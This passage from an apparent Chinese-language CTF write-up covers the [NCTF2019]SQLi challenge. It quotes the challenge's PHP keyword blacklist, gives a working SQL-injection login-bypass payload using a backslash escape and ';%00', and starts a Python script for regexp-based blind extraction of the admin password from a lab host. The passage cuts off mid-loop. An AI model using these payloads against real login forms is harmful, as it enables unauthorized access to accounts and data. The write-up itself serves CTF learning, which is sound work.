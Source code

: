 最后注意一下上传后保存的文件名为 `md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"`, 网页右上角可以看到 remote addr

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211619359.png)

## [NCTF2019]SQLi

`try to make the sqlquery have its own results`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211724399.png)

robots.txt 里可以看到 hint.txt, 内容如下

```php
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";


If $_POST['passwd'] === admin's password,

Then you will get the flag;
```

select 被过滤了, 基本上是查不出什么数据 (表名, 列名)

猜测是通过反斜杠逃逸单引号然后用万能密码

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211726105.png)

passwd 可以填 `||1` 来实现万能密码, 但是单引号的闭合是个问题, `#` `--+` `%00` 都被过滤了

看了 wp 发现闭合方式用的是 `;%00`, `%00` 截断的条件如下

> php < 5.3.4, 且 magic_quotes_gpc = Off 时可进行 `%00` 截断

但是 X-Powered-By 里的 php 版本是 5.6.40, 很奇怪...

payload 如下

```
username=123\&passwd=||1;%00
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211742633.png)

之后会跳转到 welcome.php, 但是这个文件并不存在

想了想根据 hint 的提示, 那只能去弄出 admin 的 password

发现黑名单中没有 regexp, 恰好双引号也没被过滤, 于是尝试利用 regexp 来注入

password 的字段猜测就为 `passwd` (与 post 提交的参数名一致)

python 脚本如下

```python
import requests
import time

url = 'http://edee5920-a1cf-4615-b4fb-81e7e628618c.node4.buuoj.cn:81/index.php'

dicts = '_0123456789abcdefghijklmnopqrstuvwxyz'

headers = {
    "Content-Type":"application/x-www-form-urlencoded"
}

flag = ''

for i in range(1, 99999):
    for s in dicts:
```